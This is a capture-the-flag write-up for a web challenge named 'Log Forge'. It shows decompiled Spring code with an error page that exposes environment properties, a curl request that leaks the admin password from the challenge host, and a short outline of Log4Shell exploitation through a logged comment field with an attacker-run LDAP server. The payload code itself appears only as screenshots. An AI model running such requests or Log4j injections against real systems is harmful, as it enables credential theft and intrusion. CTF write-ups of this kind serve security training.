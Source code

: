 
## Log Forge
#### about :
- Type: Web 
- Level: medium
- Points : 100

<center><img src="chall.png"></center>

we open the [file](./logforge_test.jar) with [Java decompiler](http://java-decompiler.github.io/)

The credentials are stored in the app.admin and app.password

```java
public class LogForgeSec extends WebSecurityConfigurerAdapter {
  @Value("${app.admin}")
  public String username;
  
  @Value("${app.password}")
  public String password;
```

and the error handling is quite vunerable : 
```java
# logForgeErrorController
public class LogForgeErrorController implements ErrorController {
  @GetMapping({"/errpg"})
  public String handleError(@RequestParam(name = "dbgmsg", required = false) String dbgmsg, HttpServletRequest request, HttpServletResponse httpResponse, Model model) {
    Object status = request.getAttribute("javax.servlet.error.status_code");
    model.addAttribute("code", status);
    model.addAttribute("msg", dbgmsg);
    return "errpage";
  }
}
```

```html
# errpage.html
<body>
    <h1 class="heading" th:text="${code} != null ? 'ERROR : ' + ${code} + '!' : 'ERROR!'" />
    <h2 class="heading" th:text="${msg} != null ? 'Error : ' + ${@environment.getProperty(msg)} : 'Our Engineers are on it!'" />
</body>
```
This enables to access all environment variables, so we can read the app.admin and app.password  : 

```bash
$ curl https://tenable-logforge.chals.io/errpg?dbgmsg=app.password
<!DOCTYPE html>
<html>
<meta http-equiv="refresh" content="1;url=/" />

<body>
    <h1 class="heading" >ERROR!</h1>
    <h2 class="heading" >Error : Lumberj4ck123!</h2>
</body>

</html>
```

**username : administrator**
**password : Lumberj4ck123!**

next we will try to get an SSTI with log poisoning , on the log part code : 

```java
  @RequestMapping(value = {"/dashboard/del"}, method = {RequestMethod.POST})
  public String dashdel(@RequestParam(name = "orderId", required = true) int orderId, @RequestParam(name = "comment", required = false, defaultValue = "no reason given.") String comment, HttpServletRequest request) {
    ArrayList<ForgeRequest> sessOrders = (ArrayList<ForgeRequest>)request.getSession().getAttribute("orders");
    if (orderId >= 0)
      sessOrders.remove(orderId); 
    request.getSession().setAttribute("orders", sessOrders);
    logger.info("Removing OrderId " + orderId + ", " + comment);
    return "redirect:/dashboard";
  }
```

What this function does in recieve the id and a comment of the to-be deleted item , and store the comment string (as it is) in the logger , this is vulnerable to the log4j vulnerablity on spring framework [here](https://blogs.juniper.net/en-us/security/in-the-wild-log4j-attack-payloads) , we can test if it is vulnerable first using this [tool](https://log4shell.huntress.com/) , after that i set up my own ldap server , using this [tutorial](https://tryhackme.com/room/solar) : 

my Exploit .java code was like this : 

<center><img src="src_code.png"></center>

sent the request : 

<center><img src="log4j_req.png"></center>


Then i received the flag : 
<center><img src="flag.png"></center>